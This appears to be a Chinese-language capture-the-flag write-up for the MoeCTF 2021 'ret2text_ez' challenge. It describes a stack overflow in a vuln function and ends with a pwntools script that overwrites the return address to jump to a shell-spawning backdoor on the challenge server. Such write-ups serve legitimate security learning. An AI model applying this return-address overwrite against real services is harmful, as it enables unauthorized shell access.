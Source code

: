 ## 基本信息

- 题目名称：[MoeCTF 2021]ret2text_ez
- 题目链接：https://www.nssctf.cn/problem/3406
- 考点清单：ret2text
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

- 反汇编发现4个自定义函数

![](./images/r2ez-func.png)

- vuln函数是栈溢出漏洞函数（read溢出0x12），backdoor函数后门函数，直接调用shell

![](./images/r2ez-vuln.png)

## 二、想到什么解题思路

### 第一轮

- 直接栈溢出+ret2text跳转至backdoor

## 三、尝试过程和结果记录

### 第一轮

- payload = b”a”*0x28 + p64(0x401196)

## 四、Payload

```python
from pwn import *
rmt = "node5.anna.nssctf.cn"
pt = 26754
p = remote(rmt,pt)
elf = ELF("./retez")
padding = (0x20+0x8)*b'a'
backdoor = p64(0x401196)
payload = padding + backdoor
p.sendline(payload)
p.interactive()
```


